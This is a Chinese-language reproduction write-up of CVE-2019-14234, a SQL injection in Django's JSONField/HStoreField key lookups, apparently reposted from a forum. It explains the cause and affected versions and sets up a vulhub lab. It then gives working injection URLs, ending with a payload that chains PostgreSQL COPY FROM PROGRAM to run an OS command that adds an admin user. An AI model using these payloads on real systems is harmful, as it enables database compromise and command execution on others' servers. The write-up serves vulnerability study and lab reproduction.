


# （CVE-2019-14234）Django JSONField sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2886](https://www.zhihuifly.com/t/topic/2886)

# （CVE-2019-14234）Django JSONField sql注入漏洞

## 一、漏洞简介

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key_name是可控的字符串，最终生成的语句是WHERE (field->'[key_name]') = 'value'，因此可以进行SQL注入。

## 二、漏洞影响

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

## 三、复现过程

### 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/django/CVE-2019-14234/
docker-compose up -d 
```

### 漏洞利用

#### 1、登录后台

http://ip:8000/admin/vuln/collection/

#### 2、构造URL进行查询

http://ip:8000/admin/vuln/collection/?detail__a%27b=123



可以看到已经注入成功，并且可以看到构造的SQL语句

为进一步验证注入语句，我们继续构造

```
http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1-- 
```

后台生成的sql语句的关键部分是

```
WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s 
```

由于or 1=1永为真，因此应该返回所有结果，页面返回结果符合预期，如下图



下一步结合CVE-2019-9193我们尝试进行命令注入，构造url如下

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20 
```

页面结果虽然报错，但是报错原因是no results to fetch，说明我们的语句已经执行


最终payload

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20 
```